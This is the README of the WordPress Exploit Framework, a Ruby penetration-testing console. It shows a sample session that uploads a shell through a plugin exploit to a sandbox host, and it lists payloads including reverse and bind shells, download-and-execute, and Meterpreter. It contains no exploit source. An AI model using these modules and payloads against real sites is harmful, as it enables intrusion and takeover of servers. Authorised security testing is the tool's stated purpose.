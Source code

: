 <p align="center"><img src="https://i.imgur.com/8kltxBa.png" /></p>

<h1 align="center">WordPress Exploit Framework</h1>
<p align="center">
  <a href="https://travis-ci.org/rastating/wordpress-exploit-framework"><img src="https://travis-ci.org/rastating/wordpress-exploit-framework.svg?branch=development" alt="Build Status" height="20" /></a> <a href="https://codeclimate.com/github/rastating/wordpress-exploit-framework/maintainability"><img src="https://api.codeclimate.com/v1/badges/5414ccc4e7a1f5e38c79/maintainability" alt="Maintainability" height="20" /></a> <a href="https://coveralls.io/github/rastating/wordpress-exploit-framework?branch=development"><img src="https://coveralls.io/repos/github/rastating/wordpress-exploit-framework/badge.svg?branch=development" alt="Coverage Status" height="20" /></a> <a href="https://badge.fury.io/rb/wpxf"><img src="https://badge.fury.io/rb/wpxf@2x.png" alt="Gem Version" height="20"></a>
</p>

<p align="center">
  A Ruby framework designed to aid in the penetration testing of WordPress systems.
</p>

<hr>

### Installation
To install the latest stable build, run `gem install wpxf`.

After installation, you can launch the WordPress Exploit Framework console by running `wpxf`.

### What do I need to run it?
Ruby >= 2.4.4 is required to run WordPress Exploit Framework.

### Troubleshooting Installation
#### Debian Systems
If you have issues installing WPXF's dependencies (in particular, Nokogiri), first make sure you have all the tooling necessary to compile C extensions:

```
sudo apt-get install build-essential patch
```

It’s possible that you don’t have important development header files installed on your system. Here’s what you should do if you should find yourself in this situation:

```
sudo apt-get install ruby-dev zlib1g-dev liblzma-dev libsqlite3-dev
```

#### Windows Systems
If you are experiencing errors that indicate that `libcurl.dll` could not be loaded, you will need to ensure the latest libcurl binary is included in your Ruby bin folder, or any other folder that is in your environment's PATH variable.

The latest version can be downloaded from http://curl.haxx.se/download.html. As of 16/05/2016, the latest release is marked as `Win32 2000/XP zip	7.40.0 libcurl SSL`. After downloading the archive, extract the contents of the bin directory into your Ruby bin directory (if prompted, don't overwrite any existing DLLs).

### How do I use it?
Start the WordPress Exploit Framework console by running `wpxf`.

Once loaded, you'll be presented with the wpxf prompt, from here you can search for modules using the `search` command or load a module using the `use` command.

Loading a module into your environment will allow you to set options with the `set` command and view information about the module using `info`.

Below is an example of how one would load the symposium_shell_upload exploit module, set the module and payload options and run the exploit against the target.

```
wpxf > use exploit/shell/symposium_shell_upload

[+] Loaded module: #<Wpxf::Exploit::SymposiumShellUpload:0x3916f20>

wpxf [exploit/shell/symposium_shell_upload] > set host wp-sandbox

[+] Set host => wp-sandbox

wpxf [exploit/shell/symposium_shell_upload] > set target_uri /wordpress/

[+] Set target_uri => /wordpress/

wpxf [exploit/shell/symposium_shell_upload] > set payload exec

[+] Loaded payload: #<Wpxf::Payloads::Exec:0x434d078>

wpxf [exploit/shell/symposium_shell_upload] > set cmd echo "Hello, world!"

[+] Set cmd => echo "Hello, world!"

wpxf [exploit/shell/symposium_shell_upload] > run

[-] Preparing payload...
[-] Uploading the payload...
[-] Executing the payload...
[+] Result: Hello, world!
[+] Execution finished successfully
```
For a full list of supported commands, take a look at [This Wiki Page](https://github.com/rastating/wordpress-exploit-framework/wiki/Supported-Commands).

### What is the difference between auxiliary and exploit modules?
Auxiliary modules do not allow you to run payloads on the target machine, but instead allow you to extract information from the target, escalate privileges or provide denial of service functionality.

Exploit modules require you to specify a payload which subsequently gets executed on the target machine, allowing you to run arbitrary code to extract information from the machine, establish a remote shell or anything else that you want to do within the context of the web server.

### What payloads are available?
* **bind_php:** uploads a script that will bind to a specific port and allow WPXF to establish a remote shell.
* **custom:** uploads and executes a custom PHP script.
* **download_exec:** downloads and runs a remote executable file.
* **meterpreter_bind_tcp:** a Meterpreter bind TCP payload generated using msfvenom.
* **meterpreter_reverse_tcp:** a Meterpreter reverse  TCP payload generated using msfvenom.
* **exec:** runs a shell command on the remote server and returns the output to the WPXF session.
* **reverse_tcp:** uploads a script that will establish a reverse TCP shell.

All these payloads, with the exception of `custom` and the Meterpreter payloads, will delete themselves after they have been executed, to avoid leaving them lying around on the target machine after use or in the event that they are being used to establish a shell which fails.

### How can I write my own modules and payloads?
Guides on writing modules and payloads can be found on [The Wiki](https://github.com/rastating/wordpress-exploit-framework/wiki) and full documentation of the API can be found at https://rastating.github.io/wordpress-exploit-framework

## License
Copyright (C) 2015-2018 rastating

Running WordPress Exploit Framework against websites without prior mutual consent may be illegal in your country. The author and parties involved in its development accept no liability and are not responsible for any misuse or damage caused by WordPress Exploit Framework.

This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <http://www.gnu.org/licenses/>.
